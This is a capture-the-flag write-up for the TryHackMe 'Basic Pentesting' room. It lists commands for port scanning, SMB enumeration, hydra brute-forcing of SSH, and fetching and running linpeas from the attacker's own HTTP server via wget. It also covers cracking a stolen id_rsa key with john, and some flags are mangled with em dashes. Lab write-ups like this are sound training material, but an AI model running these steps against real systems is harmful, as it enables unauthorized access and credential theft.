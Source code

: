 ```yaml
---
description: https://tryhackme.com/room/basicpentestingjt
---
```


# Basic Pentesting

Wrap-UP:

1.  use **nmap** to scan the open ports

    ```
    nmap -sV <ip>
    ```
2. use **gobuster** to enumerate hidden folders in web server\
   Syntax: gobuster -u \[HTTP://ip] -w \[wordlist]\
   gobuster dir -u http://ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \

3.  use **Enum4Linux** to scan the whole system\
    Syntax: Enum4linux -a \[IP]\
    Instead of grabbing user information from Enum4Linux output, we can scan smb to get information:\
    Syntax: smbclient \[IP]//\[smb share] -U \[username, if applicable]\
    ![](<../.gitbook/assets/image (5) (1) (1).png>)\
    Connect:\


    ```
    smbclient //<IP>/anonymous

    staff.txt:
    Announcement to staff:

    PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
    this is how mistakes happen. (This means you too, Jan!)

    -Kay
    ```
4.  Use **hydra** to brutal-forcing the password:\
    Syntax: hydra -l \[username] -P \[wordlist] \[IP] \[service]\
    OR\
    Syntax: hydra -l \[username] -P \[wordlist] \[service://IP]\
    \


    ```
    hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP> ssh


    ```
5.  login with the credentials get from previous steps.\


    ```
    cat /etc/passwd

    SSH into the machine using the discovered credentials (user: jan):

    ssh jan@<target-ip-address>
    ```
6.  Use **privilege escalation tool like LinEnum or Linpeas**\
    transport the linpeas:\
    scp \[linenum.sh] \[user@ip]\
    use linenum.sh to scan:\
    ./linenum.sh | tee long.txt\
    \


    Start a Python HTTP server to transfer scripts from your local machine to the target:

    > python3 -m http.server — bind \<your-tun0-ip> 8000
    >
    > \
    > ![](<../.gitbook/assets/image (8) (1).png>)\
    >
    >
    > On the target machine, download the script:
    >
    > > wget http://\<your-tun0-ip>:8000/\<script-file-name>\
    > > \
    > > \
    > >
    > >
    > > Make the script executable and run it:
    > >
    > > > chmod +x \<script-name>\
    > > > ./\<script-name>
    > >
    > > \
    > > ![](<../.gitbook/assets/image (9) (1).png>)\
    > > \
    > > chmod 600 id\_rsa
7. From task 6 we can find the id\_rsa hash key for kay to login. Copy the file to the local machine and use john to crack the hash file.\
   Syntax: **ssh2john** \[file] > hash.txt\
   &#x20;    ssh2john id\_rsa > john-pass\
   Crack the hash file password:\
   Syntax: john hash.txt — wordlist=\[wordlist]\
   john — wordlist=/usr/share/wordlists/rockyou.txt john-pass\
   ![](<../.gitbook/assets/image (11) (1).png>)
8.  ssh to the new user with cracked rsa\_id\


    SSH into user `kay` using the cracked key:

    > ssh -i id\_rsa kay@\<target-ip>\
    > ![](<../.gitbook/assets/image (12).png>)\
    > \
    > ![](<../.gitbook/assets/image (13).png>)
